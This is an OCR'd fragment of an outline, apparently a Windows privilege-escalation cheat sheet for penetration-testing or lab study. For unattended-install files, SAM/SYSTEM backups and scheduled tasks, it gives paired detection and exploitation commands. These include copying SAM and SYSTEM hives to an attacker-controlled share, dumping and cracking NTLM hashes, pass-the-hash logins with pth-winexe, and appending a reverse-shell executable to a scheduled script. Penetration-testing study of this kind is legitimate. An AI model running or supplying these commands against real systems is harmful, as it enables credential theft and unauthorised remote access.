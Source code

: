 				- > dir /s *pass* == *.config
				- > findstr /si password *.xml *.ini *.txt
				- > .\winPEAS.exe quiet cmd searchfast filesinfo
				- Found file?

			- Exploitation

				- > type C:\Windows\Panther\Unattend.xml
				- # winexe -U 'admin%password123' //$IP cmd.exe

		- SAM/System

			- Detection

				- C:\Windows\Repair
				- C:\Windows\System32\config\RegBack 
				- Found backups?

			- Exploitation

				- > copy C:\Windows\Repair\SAM \\$IP\tools\
				- > copy C:\Windows\Repair\SYSTEM \\$IP\tools\
				- # git clone https://github.com/Neohapsis/creddump7.git
				- # python2 creddump7/pwdump.py SYSTEM SAM
				- Crack Password

					- # hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt

				- Passing the Hash

					- # pth-winexe -U 'admin%aad3b435b51404eeaad3b435b5 404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
					- # pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //$IP cmd.exe

		- Memory

			- Mimikittenz

				- https://github.com/orlyjamie/mimikittenz

			- Process Dump 

	- Scheduled Tasks

		- Detection

			- > schtasks /query /fo LIST /v
			- PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
			- Found scheduled?

		- Exploitation

			- > type C:\DevTools\CleanUp.ps1
			- > C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
			- > copy C:\DevTools\CleanUp.ps1 C:\Temp\
			- > echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

	- Insecure GUI

		- Detection
